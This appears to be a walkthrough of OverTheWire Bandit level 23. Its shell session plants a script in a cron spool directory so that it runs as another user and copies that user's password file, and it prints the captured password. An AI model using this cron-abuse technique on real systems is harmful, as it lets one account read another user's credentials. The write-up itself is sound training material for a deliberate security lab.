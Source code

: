# LEVEL GOAL

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# SOLUTION

`nikhilh@ubuntu:~/projects/overthewire-bandit/bandit23$ ssh -p 2220 bandit23@bandit.labs.overthewire.org`

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames
bandit23@bandit.labs.overthewire.org's password: 
               
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
               
              
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!
	
  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

`bandit23@bandit:~$ cd /etc/cron.d`

`bandit23@bandit:/etc/cron.d$ ls`

`cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  popularity-contest`

`bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24`

`@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`

`* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`

`bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh`

`#!/bin/bash`

`myname=$(whoami)`

`cd /var/spool/$myname`

`echo "Executing and deleting all scripts in /var/spool/$myname:"`

`for i in * .*;`

`do`

`    if [ "$i" != "." -a "$i" != ".." ];`

`    then`

`	echo "Handling $i"`

`	timeout -s 9 60 ./$i`

`	rm -f ./$i`

`    fi`

`done`

`bandit23@bandit:/etc/cron.d$ mkdir /tmp/kenshin2`

`bandit23@bandit:/etc/cron.d$ cd /tmp/kenshin24`

`bandit23@bandit:/tmp/kenshin24$ vim get_24_pass.sh`

`bandit23@bandit:/tmp/kenshin24$ cat get_24_pass.sh`

`#! /bin/bash`

`cat /etc/bandit_pass/bandit24 > /tmp/kenshin24/bandit24_pass`

`bandit23@bandit:/tmp$ chmod 777 kenshin24`

`bandit23@bandit:/tmp/kenshin24$ cp get_24_pass.sh /var/spool/bandit24`

`bandit23@bandit:/tmp/kenshin24$ ls`

`bandit24_pass  get_24_pass.sh`

`bandit23@bandit:/tmp/kenshin24$ cat bandit24_pass`

`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

